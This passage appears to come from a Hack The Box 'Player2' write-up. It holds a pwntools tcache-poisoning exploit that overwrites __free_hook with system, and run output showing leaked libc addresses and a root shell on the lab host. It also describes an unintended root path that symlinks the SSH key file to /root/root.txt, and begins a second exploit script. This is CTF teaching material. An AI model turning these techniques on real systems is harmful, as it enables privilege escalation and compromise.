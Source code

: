 ```python
# tcache poison		# and therefore putting into the 0x100 bin, too.
add(0xf0, p64(free_hook))
add(0xf0, 'D'*40)
add(0xf0, p64(system))
free(9)

p.interactive()
```
```python
kali@kali:~/HTB/boxes/player2/binary_2$ python3 final_exploit.py 
[*] '/home/kali/HTB/boxes/player2/binary_2/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Connecting to 10.10.10.170 on port 22: Done
[*] observer@10.10.10.170:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  5.2.5
    ASLR:     Enabled
[+] Starting remote process b'/opt/Configuration_Utility/Protobs' on 10.10.10.170: pid 37068
[*] Main arena leak  : 0x7f31c4f37ca0
[*] Libc base address: 0x7f31c4d53000
[*] Free hook address: 0x7f31c4f3a5a8
[*] System address   : 0x7f31c4da5fd0
[*] Switching to interactive mode
# $ whoami && id && hostname
root
uid=1000(observer) gid=1000(observer) euid=0(root) groups=1000(observer)
player2
# $ cat /root/root.txt
73DA***********************7D8C5 
```

# <a name="Appendix"></a>Appendix
## Root - unintended
The trivial way of becoming root is to realize that for the ssh key to be sent via MQTT the ssh key from observers home directory is read. Feels like this was on purpose as this could have easily been fixed. Thus replacing the private key file with a symbolic link to `/root/root.txt` will get you the flag.
{: .text-justify} 
## Root - another intended way
Disclaimer: The following is not my work but I have the permission to publish.
```python
from pwn import *

LOCAL = True

bin = ELF('./Protobs')
libc = ELF('./libc.so.6')

if(LOCAL):
    p = process("./Protobs")
else:
    remoteShell = ssh(host = "player2.htb", user="observer", keyfile="id_rsa")
    remoteShell.set_working_directory("/opt/Configuration_Utility")
    p =remoteShell.process("./Protobs")
```